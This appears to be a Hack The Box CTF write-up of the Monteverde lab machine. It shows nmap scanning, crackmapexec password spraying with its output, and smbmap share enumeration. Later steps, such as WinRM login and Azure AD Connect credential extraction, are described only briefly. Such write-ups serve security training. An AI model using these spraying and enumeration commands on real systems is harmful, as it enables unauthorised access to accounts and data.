





```css
title: "Hack the box - Monteverde"
author: mayomacam
date: "2020-06-14"
subject: "CTF Writeup"
keywords: [Hack the box, Box, CTF, Security]
```


Monteverde is a  

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```markdown
$nmap -p- --min-rate 10000 -Pn 10.10.10.172
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 12:48 IST
Nmap scan report for 10.10.10.172
Host is up (0.17s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49706/tcp open  unknown
49781/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.10 seconds
```

From the above output we can see that ports, **53**, **88**, **135**, **139**, **389** , **445**, **464**, **593**, **636**, **3268**, **3269**, **5985** ,**9389** and some others ports are open. 
There is no port 80 and it's a windows box so i start with enum4linux .


We got sessions information that we can create a session and ldap is active and got domain name for ldap service. we got user names too.


Smb was close.


We find different types of groups too.




# Exploitation

look upon all data group user we get after enum4linux(wrapper for rpcclient, net, nmblookup and smbclient). i try to find online but i can't seem to find anything . On forum i got tool name cme (ccrackmapexec) and password related info(password spraying) .so i run crackmapexec or cme.

```sh
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

```sh
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY
```

I looked through each share. I can connect with smbclient and poke around, or use smbmap to list out files. Either way, I find something interesting in the users$ share:
```sh
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.172...
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        .                                                  
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        users$                                                  READ ONLY
        .\
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        .\mhope\
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    .
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    ..
        -w--w--w--             1212 Fri Jan  3 09:59:24 2020    azure.xml
```

using smbmap i download azure.xml


after open i got cred for user mhope.


using cme after try on different service i got that it can login winrm.


## User Flag
After login on desktop i got user.txt


And got our user flag.

## Root Flag

for priviledge escalation quite hard but with azure files a i can get a general idea.
so first try too see user permission in netgroup.


after searching online i got a blog that's tells more about azure ADconnect and ADsync


and on github i got scripts.


both we can use to get cred.

then using script we got admin shell just need a webserver and using powerhell download we got our cred.


we got our root.txt


# Conclusion
I learn a lot doing this box. I wish i have done box early. Azure service and crackmapexec teach me many things.

